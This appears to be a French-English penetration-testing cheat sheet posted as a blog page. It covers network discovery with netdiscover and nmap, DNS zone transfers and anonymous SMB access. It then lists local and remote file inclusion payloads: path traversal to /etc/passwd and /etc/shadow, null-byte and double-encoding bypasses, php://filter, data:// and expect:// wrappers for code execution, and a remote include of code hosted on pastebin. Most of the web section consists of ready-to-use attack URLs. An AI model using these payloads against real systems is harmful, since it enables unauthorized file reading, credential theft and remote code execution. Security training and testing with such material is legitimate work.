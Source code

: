 ```yaml
---
layout: post
title: "Cheatseet"
author: "fhbapt"
permalink: /cheatseet/
---
```


## Table of Contents


### [Network](#network)  
 * [Network discovery](#network-discovery)
    * [Netdiscover](#netdiscover) 
    * [Nmap](#nmap)
  * [Services enumerations](#services)
    * [53 - DNS](#dns)
    * [139/445 - SMB](#smb)

### [Web vulnerabilities](#web)
 * [File Inclusion](#file-inclusion)
   * [LFI (Local File Inclusion)](#lfi)
   * [RFI (Remote File Inclusion)](#rfi)

## Common tools for network discovery <a name="network-discovery"></a>
In this chapter, the most common tools and commands use to dicover network architecture are presented. 

### Netdiscover commands <a name="netdiscover"></a>

> Netdiscover is an active/passive arp reconnaissance tool


```netdiscover -p``` Sniffing network trafic, Netdiscover sent anything 


```netdiscover -r 192.168.X.X/24``` Scan of subnetwork 192.168.X.X/24 by sending ARP frames


### Nmap commands <a name="nmap"></a>

```nmap -sL 192.168.X.X/24``` Permet de scanner les hôtes d'un sous réseau

```nmap -sP 192.168.X.X/24``` Lister les hôtes du réseau qui répondent à l'ICMP

```nmap -sU 192.168.X.X``` Scan d'une machine pour lister ses ports ouverts en UDP

```nmap -Pn -A 192.168.X.X(/24) --open``` Scan des machines ou réseau avec la liste des ports ouverts

```nmap -Pn --script=smb-enum-shares -p 445 192.168.X.X```

## Services enumerations <a name="services"></a>

### 53 - DNS <a name="dns"></a>

> Un transfert de zone complet (AXFR) consiste pour un serveur DNS esclave à demander une copie de zone de à un serveur maitre qui le permet. Cette fonctionnalité est reprise par l'attaquant pour découvrir des sous domaines.

Commands DIG :

```dig axfr @dns-server nom-de-domaine``` 

### 139/445 - SMB <a name="smb"></a>

SMB Commands :

```smbclient -U guest //192.168.X.X/share``` Télécharge les fichiers sur un serveur SMB

```smbget -U guest -R smb://192.168.X.X/share ``` Télécharge les fichiers sur un serveur SMB

## File Inclusion <a name="file-inclusion"></a>

### LFI (Local File Inclusion) <a name="lfi"></a>

Vulnérabilité permettant l'inclusion de fichier local.

Exemple de LFI :

```php
<?php @include("./page/".$_GET['page']) ?>
```

**Basic LFI**

```https://fhbapt.github.io/?page=index.php``` Récupération du fichier index.php

```https://fhbapt.github.io/?page=../config.php``` Récupération du fichier config.php

```https://fhbapt.github.io/?page=./../../../etc/password``` Recupération du fichier password

Les fichiers intéressants :
 * /etc/passwd
 * /etc/shadow
 * /etc/hosts
 * /etc/group
 * /proc/cmdline
 * Fichiers de logs
 * Fichiers de backups

**Null Byte, Double encoding**

```https://fhbapt.github.io/?page=etc/password%00``` Null Byte : %00

**Double Encoding**

`https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd`

`https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00`

**Wrapper php://filter**

`https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php`

`http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php`

**Wrapper data://**

`https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`

`La payload est <?php phpinfo(); ?>`

**Wrapper expect://**

`https://fhbapt.github.io/?page=expect://ls`

### RFI (Remote File Inclusion) <a name="rfi"></a>

Vulnérabilité permettant l'inclusion de fichier distant.

Exemple de RFI :

```php
<?php @include($_GET['page']) ?>
```

Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:

```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG``` 
